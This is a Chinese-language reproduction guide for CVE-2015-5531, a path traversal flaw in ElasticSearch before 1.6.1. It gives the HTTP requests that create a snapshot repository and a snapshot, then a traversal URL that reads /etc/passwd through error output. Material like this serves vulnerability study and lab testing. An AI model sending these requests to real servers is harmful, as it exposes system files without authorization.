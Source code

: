 ```yaml
---
title: （CVE-2015-5531）ElasticSearch 目录穿越漏洞
id: zhfly2906
---
```


# （CVE-2015-5531）ElasticSearch 目录穿越漏洞

## 一、漏洞简介

elasticsearch 1.5.1及以前，无需任何配置即可触发该漏洞。之后的新版，配置文件elasticsearch.yml中必须存在`path.repo`，该配置值为一个目录，且该目录必须可写，等于限制了备份仓库的根位置。不配置该值，默认不启动这个功能。

## 二、漏洞影响

ElasticSearch 1.6.1以下

## 三、复现过程

### 1\. 新建一个仓库

```
PUT /_snapshot/test HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 108 `{

“type”: “fs”,

“settings”: {

“location”: “/usr/share/elasticsearch/repo/test”

}

}` 
```

![image](../img/95df34339291e6f25d03ebfe3efc7869.png)

### 2\. 创建一个快照

```
PUT /_snapshot/test2 HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 108 `{

“type”: “fs”,

“settings”: {

“location”: “/usr/share/elasticsearch/repo/test/snapshot-backdata”

}

}` 
```

![image](../img/b80cc7916c19b604274fde4677f51e3b.png)

### 3\. 目录穿越读取任意文件

访问 `http://www.0-sec.org:9200/_snapshot/test/backdata%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd`

![image](../img/898a2cefd609dd5be7b6f1145a22da58.png)

如上图，在错误信息中包含文件内容（编码后），对其进行解码即可获得文件：

![image](../img/0a757ed1042357e88733768bc4b2cd22.png)

## 参考链接

> https://vulhub.org/#/environments/elasticsearch/CVE-2015-5531/